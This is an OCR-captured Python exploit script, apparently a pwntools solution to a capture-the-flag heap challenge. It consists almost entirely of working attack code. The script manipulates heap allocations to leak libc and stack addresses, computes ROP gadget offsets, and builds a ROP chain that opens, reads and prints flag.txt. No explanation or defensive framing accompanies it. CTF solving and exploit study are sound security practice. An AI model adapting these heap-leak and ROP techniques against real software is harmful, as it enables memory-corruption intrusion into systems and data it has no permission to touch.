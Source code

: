```py

# Get libc address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
add(1, 0x280, buf)
add(2, 0x800, "leaker")
lose(1)

buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(heap_base + 0x15a0)
add(1, 0x280, buf)

add(0, 0x0, "asdf", usecontent=False)
view(0)
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(libc_leak))
libc_base = libc_leak - 0x1ebbf0
lose(1)

environ = libc_base + 0x1ef2e0
open_func = libc_base + 0x110e50
read_func = libc_base + 0x111130
write_func = libc_base + 0x1111d0
pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rdx = libc_base + 0x0000000000162866
pop_rsp = libc_base + 0x0000000000032b5a
ret = libc_base + 0x0000000000025679
pop_rcx = libc_base + 0x00000000001056fe
syscall = libc_base + 0x000000000011b880


# Get stack address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(environ)
add(1, 0x280, buf)

add(0, 0, "asdf", usecontent=False)
view(0)
stack_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(stack_leak))
lose(1)


## ROP chain!
buf = b""
buf += p64(0)*2 + p64(0x0101010101010101)*6
buf = buf.ljust(128, b"\x00")
buf += p64(stack_leak-0x158)*32
add(1, 0x280, buf)
add(0, 0x130, p64(ret)*10 + p64(pop_rsi) + p64(stack_leak-0xd8) + p64(pop_rdx) + p64(0)*2 + p64(pop_rcx) + b"flag.txt" + p64(0) + p64(pop_rdi) + p64(2) + p64(syscall) + 
    p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x1000)*2 + p64(read_func) + 
    p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x50)*2 + p64(write_func))

p.interactive()
```
